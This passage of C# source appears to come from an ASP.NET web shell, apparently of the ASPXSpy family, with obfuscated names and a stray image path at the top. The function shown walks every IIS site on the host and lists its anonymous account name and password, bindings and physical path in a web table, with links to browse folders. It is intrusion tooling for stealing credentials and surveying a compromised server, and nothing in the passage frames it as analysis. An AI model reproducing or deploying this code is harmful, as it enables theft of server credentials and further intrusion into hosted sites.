 }
}
public void AdCx()
{
string qcKu=string.Empty;
string mWGEm="IIS://localhost/W3SVC";
GlI.Style.Add("word-break","break-all");
try
{
DirectoryEntry HHzcY=new DirectoryEntry(mWGEm);
int fmW=0;
foreach(DirectoryEntry child in HHzcY.Children)
{
if(SGde(child.Name.ToString()))
{
fmW++;
DirectoryEntry newdir=new DirectoryEntry(mWGEm+"/"+child.Name.ToString());
DirectoryEntry HlyU=newdir.Children.Find("root","IIsWebVirtualDir");
string bg=OKM();
TableRow TR=new TableRow();
TR.Attributes["onmouseover"]="this.className='focus';";
TR.CssClass=bg;
TR.Attributes["onmouseout"]="this.className='"+bg+"';";
TR.Attributes["title"]="Site:"+child.Properties["ServerComment"].Value.ToString();
for(int i=1;i<6;i++)
{
try
{
TableCell tfit=new TableCell();
switch(i)
{case 1:
tfit.Text=fmW.ToString();
break;
case 2:
tfit.Text=HlyU.Properties["AnonymousUserName"].Value.ToString();
break;
case 3:
tfit.Text=HlyU.Properties["AnonymousUserPass"].Value.ToString();
break;
case 4:
StringBuilder sb=new StringBuilder();
PropertyValueCollection pc=child.Properties["ServerBindings"];
for (int j=0; j < pc.Count; j++)
{
sb.Append(pc[j].ToString()+"<br>");
}
tfit.Text=sb.ToString().Substring(0,sb.ToString().Length-4);
break;
case 5:
tfit.Text="<a href=\"javascript:Bin_PostBack('Bin_Listdir','"+MVVJ(HlyU.Properties["Path"].Value.ToString())+"')\">"+HlyU.Properties["Path"].Value.ToString()+"</a>";
break;
}
TR.Cells.Add(tfit);
}
catch (Exception ex)
{
xseuB(ex.Message);
continue;
}
}
GlI.Controls.Add(TR);
}
}